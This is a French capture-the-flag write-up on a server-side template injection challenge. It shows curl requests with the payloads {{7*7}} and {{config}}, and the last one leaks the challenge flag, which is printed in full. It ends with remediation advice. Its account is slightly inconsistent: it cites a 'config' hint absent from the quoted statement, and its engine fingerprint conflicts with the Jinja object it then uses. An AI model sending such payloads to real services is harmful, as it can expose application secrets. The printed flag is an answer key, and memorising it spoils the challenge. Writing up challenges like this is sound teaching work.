



## Informations

- **Catégorie :** Web Exploitation
- **Difficulté :** Hard
- **Points :** 80
- **Auteur du write-up :** 3ch0
- **Flag :** `cspp{templ4te_1njection_49}`

> **Énoncé :** A greeting service builds `Hello, <name>!` from your input. It naively evaluates `{{ … }}` expressions. Confirm the bug with `{{7*7}}` (you'll see `Hello, 49!`), then make the template cough up the flag.
> **Endpoint :** `POST https://api.csplusplus.com/api/ctf/x/render`

---

## 1. Comportement de base

Le service renvoie un message de salutation construit à partir de l'entrée `name` :

```bash
curl -X POST https://api.csplusplus.com/api/ctf/x/render \
     -H "Content-Type: application/json" \
     -d '{"name":"world"}'
```

```json
{"greeting":"Hello, world!"}
```

L'entrée est reflétée telle quelle. Une valeur quelconque (`id`) est elle aussi renvoyée brute — pas d'exécution pour du texte simple :

```json
{"greeting":"Hello, id!"}
```



---

## 2. Confirmation de la SSTI

On teste l'injection de template avec l'expression classique `{{7*7}}`. Si le serveur l'**évalue**, on verra `49` plutôt que la chaîne littérale :

```bash
curl -X POST https://api.csplusplus.com/api/ctf/x/render \
     -H "Content-Type: application/json" \
     -d '{"name":"{{7*7}}"}'
```

```json
{"greeting":"Hello, 49!"}
```

> **Vulnérabilité confirmée : Server-Side Template Injection (SSTI).** L'entrée utilisateur est injectée dans un template évalué côté serveur.

### Empreinte du moteur

On affine avec `{{7*'7'}}` — un test qui distingue les moteurs :

```bash
curl ... -d '{"name":"{{7*'"'"'7'"'"'}}"}'
```

```json
{"greeting":"Hello, 49!"}
```

> Le résultat `49` (et non `7777777`) indique un moteur qui **ne concatène pas** `int * str` façon Jinja2 — comportement typique d'un évaluateur de type Python `eval` restreint ou d'un moteur style Twig/Go. Dans tous les cas, l'expression entre `{{ }}` est exécutée.



---

## 3. Exploitation

Le hint de l'énoncé portait sur `config` (objet classique exposant la configuration de l'application dans les moteurs à la Flask/Jinja). On tente d'afficher cet objet :

```bash
curl -X POST https://api.csplusplus.com/api/ctf/x/render \
     -H "Content-Type: application/json" \
     -d '{"name":"{{config}}"}'
```

```json
{"greeting":"Hello, cspp{templ4te_1njection_49}!"}
```

Le flag était stocké dans l'objet de configuration de l'application, directement accessible via l'injection.

**Flag :** `cspp{templ4te_1njection_49}`



---

## Récapitulatif de la chaîne d'exploitation

1. **Reflet** → l'entrée `name` est renvoyée dans `Hello, <name>!`.
2. **`{{7*7}}` → 49** → confirmation de l'évaluation côté serveur (SSTI).
3. **`{{7*'7'}}` → 49** → empreinte du moteur (pas de concaténation int×str).
4. **`{{config}}`** → le flag est exposé dans l'objet de configuration.

> **Concept clé :** la SSTI survient quand une entrée utilisateur est insérée **dans** un template plutôt que passée **comme donnée** au template. Selon le moteur, elle permet de lire la configuration, des variables internes, voire d'exécuter du code arbitraire (RCE) en remontant la chaîne d'objets du langage.
>
> **Remédiation :** ne jamais construire un template à partir d'entrées utilisateur. Utiliser le rendu paramétré (`render("Hello, {name}!", name=user_input)`) où l'entrée est traitée comme une simple valeur, jamais comme du code de template.

---

***— 3ch0***
